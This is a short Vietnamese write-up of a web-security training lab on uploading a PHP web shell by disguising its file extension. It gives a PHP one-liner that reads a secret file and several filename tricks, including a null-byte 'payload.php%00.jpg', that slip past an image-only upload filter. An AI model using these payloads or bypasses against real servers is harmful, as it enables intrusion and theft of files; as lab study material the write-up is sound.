


## Web shell upload via obfuscated file extension

1. Sau khi đăng nhập, upload thử file ``payload.php`` có nội dung
- ```<?php echo file_get_contents('/home/carlos/secret'); ?>```

2. Nhận được thông báo lỗi rằng server chỉ cho phép các file JPG, PNG

3. Dựa vào mô tả của lab, ta sẽ thử dùng một số kỹ thuật obfuscate bằng cách thay đổi tên file ``payload.php`` thành:
- ``payload.php.jpg``
- ``payload.p.phphp``
- ``payload.php.``
- ``payload%2Ephp``
- ``payload.php%00.jpg``

-> Nhận thấy với filename = ``payload.php%00.jpg`` thì server trả lại thông báo ``The file avatars/payload.php has been uploaded`` 



4. Truy nhập path ``/files/avatars/payload.php`` nhận được secret của Carlos

